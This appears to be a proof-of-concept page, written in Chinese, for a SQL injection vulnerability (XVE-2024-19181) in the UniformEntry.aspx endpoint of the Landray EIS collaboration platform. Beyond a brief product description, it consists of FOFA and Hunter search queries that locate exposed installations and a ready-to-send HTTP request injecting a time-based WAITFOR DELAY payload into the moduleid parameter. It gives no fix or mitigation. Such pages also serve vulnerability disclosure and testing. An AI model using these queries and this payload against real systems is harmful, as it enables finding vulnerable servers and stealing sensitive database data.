 # 蓝凌EIS智慧协同平台UniformEntry.aspx存在SQL注入漏洞(XVE-2024-19181)

蓝凌EIS智慧协同平台是一款专为成长型企业打造的智慧办公云平台，深度融合了阿里钉钉的功能。该平台旨在通过增强组织的协同在线、业务在线和生态在线，提升企业的工作效率和管理便捷性。 蓝凌EIS智慧协同平台存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感数据。

## fofa

```yaml
icon_hash="953405444"||app="Landray-OA系统"
```
##hunter
```yaml
web.icon=="585275a4cc54b8414554d03e1359a101"
```


## poc

```yaml
GET /third/DingTalk/Pages/UniformEntry.aspx?moduleid=1;WAITFOR+DELAY+'0:0:5'-- + HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0)Gecko/20100101 Firefox/109.0
```

